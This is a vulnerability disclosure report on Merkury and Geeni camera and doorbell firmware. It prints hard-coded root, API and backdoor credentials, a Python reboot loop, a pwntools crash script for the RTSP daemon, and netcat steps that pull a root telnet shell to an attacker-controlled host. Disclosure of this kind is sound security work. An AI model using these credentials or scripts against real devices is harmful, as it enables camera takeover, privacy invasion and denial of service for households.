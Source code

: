 # Merkury Innovations / Geeni Multiple Disclosures

## Vulnerabilities

We uncovered multiple vulnerabilities in your Merkury Innovations and Geeni Security Camera and Doorbell product lines. 

## Affected Devices and Services

We uncovered vulnerabilities in seven Merkury and Geeni products that represent six di↵erent firmware versions.

The following section describes the following vulnerabilities in detail.

| Device | Type | FW Version | Telnet Service | RESTful API | Web Interface | RTSP Server |
|-------|------|------------|----------------|-------------|---------------|-------------|
| GNC-CW013 | Doorbell | 1.8.1 |  x   |    |  x |  x  |
| GNC-CW003 | Camera | 1.10.16 |     |  x  |   |    |
| GNC-CW010 | Camera | 1.3.5   |  x   |    |   |    |
| GNC-CW028 | Camera | 2.7.2   |  x   |  x  |   |    |
| GNC-CW025 | Doorbell | 2.9.5 |     |  x  |   |    |
| MI-CW024  | Doorbell | 2.9.6 |     |  x  |   |    |
| MI-CW017  | Camera | 2.9.6   |     |  x  |   |    |

- Telnet enabled with hard-coded credentials
- RESTful command server with hard-coded credentials.
- Streaming video application with hard-coded credentials.
- RSTP Daemon denial of service.
- RTSP Daemon remote code execution. 

###  Hard-coded credentials with Telnet service enabled

A vulnerability exists in the Telnet service of Firmware Version 1.3.5 that allows a remote attacker to take full control of the device with a high-privileged account. The vulnerability exists because a system account has a default and static password. An attacker could exploit this vulnerability by using this default account to connect to the a↵ected system. A successful exploit could allow the attacker to gain full control of an a↵ected device. This exists because the following administrator password hashes are statically built into the firmware. These hashes exist on the SPI flash of the device or can be retrieved through the RESTful interface as described in the following section.

    - Firmware 1.8.1   root:$1$zZjlr1sx$KnnqY6wT2GshVK5dRIlx4 (apix)
    - Firmware 2.7.2   root:$1$12345678$CTq8UQyYrE.vbbG7E8Mtj1 (unknown)

In the following versions of firmware, telnetd is either enabled or can be enabled through the RESTful command interface by calling /sys/telnetd/switch as described in the following section.

    - Firmware 1.8.1   Telnet is enabled by default
    - Firmware 2.7.2   Telnet can be enabled through the restful interface

### RESTful API with Hard-coded Credentials

A vulnerability exists in the RESTful Services API running on various Geenie and Merkury product lines that allows a remote attacker to take full control of the camera with a high-privileged account. The vulnerability exists because a static username and password are compiled into the ppsapp RESTful application. An attacker could exploit this vulnerability by using this default account to connect to the a↵ected system. The default username admin and password of 056565099. On Firmware version 1.35, this di↵ers with the username admin and default password admin.

A successful exploit could allow the attacker to gain full control of an a↵ected device. The following supported RESTful commands could lead to a disclosure of sensitive information, denial of service, or unauthenticated access.

- /proc/self/root/etc/passwd (Only > 2.00)
- /sys/info
- /sys/reboot
- /sys/factory_reset
- /sys/telnetd/switch (Only == 2.7.2)
- Sensitive information disclosure
- Sensitive information disclosure
- Denial of service
- Denial of service
- Allows unauthenticated access

```python
import requests
   from requests.auth import HTTPBasicAuth
   host = ’192.168.1.2’
   user=’admin’
   pswd=’056565099’
   while True:
      auth=auth=HTTPBasicAuth(user,pswd)
      url = ’http://’+host+’/devices/reboot’
      res=requests.post(url,auth=auth)
```

### Streaming Video Application with Hard-coded Credentials

A vulnerability in the Geeni DoorScreen Doorbell running Firmware 1.8.1 that allows a remote attacker to take full control of the camera with a high-privileged account. The vulnerability ex- ists because a static username and password are compiled into a shared library used to provide the streaming camera service. An attacker could exploit this vulnerability by using this default account to connect to the a↵ected system.

The Geenie DoorScreen Doorbell running Firmware Version 1.8.1 uses the libhipcam.so library to authenticate users to the camera system. It contains a backdoor account that is not logged and statically compiled into the library as depicted in the following figure. Thus, an unauthenticated user can log into the system using the username ”apexis” and password ”008”.

An unauthenticated user can login to a device using these hard-coded credentials and remotely view the doorbell camera.

### RSTP Daemon Denial of Service


A denial of service issue issue exists with the RSTPd server running on various Geenie Doorbell and Security Cameras. A remote attacker may cause an unexpected application termination, which triggers a device reboot and can lead to a permanent denial of service.

The vulnerability exists in the receive bu↵er handling on TCP port 38401 of the RTSPd daemon. Sending periodic and large messages to TCP/38401 will cause a denial of service attack in which the RSTP daemon shuts down, reboots the device, and/or hangs indefinitely. Although we have yet to prove it, it may be feasible that this vulnerability could lead to remote code execution conditions. Proof of concept code is depicted below.

```python

from pwn import *
   target = ’192.168.1.2’
   port = 38401
   io = remote(target,port)
   for i in range(1,100):
     sleep(0.5)
     io.send(cyclic(i*128*10))
     io.sendline()
 
 ```

 ### RTSP Daemon remote code execution

A vulnerability exists in the RTSP service that allows a remote attacker to take full control of the device with a high-privileged account. By sending a specially crafted message, an attacker is able to remotely deliver a telnet session. Its important to note that any attacker upstream from the victim can initiate this attack, including an ISP or network-admin.

A proof of concept attack flow follows. We assume an attacker has the ability to control DNS and can redirect apexisalarm.com to a host under their control. Then an attacker can open netcat on UDP port 8089 and wait for the RTSP daemon to connect. Upon connecting, an attacker can send cmd:start apx console, which will send a telnet session to the attacker’s IP on TCP port 9089.

```
$ nc -4 -l -v -p 8089 -u -v
   cmd:start apx console
```

Upon receiving the telnet session, the attacker may login with the username/passwords discovered previously in this report.

```
 $ nc -4 -l -v -p 9089 -v -k
   (none) login: root
   root
   Password: apix
   apix
   Welcome to HiLinux
   ~#
```


